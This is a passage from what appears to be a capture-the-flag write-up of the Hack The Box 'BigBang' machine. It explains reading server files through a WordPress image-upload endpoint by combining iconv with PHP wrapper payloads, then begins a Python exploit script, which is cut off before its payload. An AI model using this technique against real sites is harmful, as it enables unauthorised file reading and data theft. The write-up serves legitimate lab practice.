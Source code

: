 ![Screenshot 2025-01-28 at 12.27.51 AM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-28_at_12.27.51_AM.png)

Looking at the source code, we see a remote class responsible for downloading files. Running the script results in an error because, as we already observed, a specific request must be sent to upload the file.

As the first part of the exploit suggests, we can exfiltrate data by using **iconv** in combination with PHP wrapper methods, and injecting the payload into the URL part of the request.

```python
import requests
import sys
import time
import json

if len(sys.argv) != 2:
    print("Usage: python LFI.py <file_to_read>")
    sys.exit(1)

file_to_read = sys.argv[1]

url = "http://blog.bigbang.htb/wp-admin/admin-ajax.php"
headers = {
    "Content-Type": "application/x-www-form-urlencoded",
}

data = (
    "action=upload_image_from_url&id=1&accepted_files=image/gif&url="
```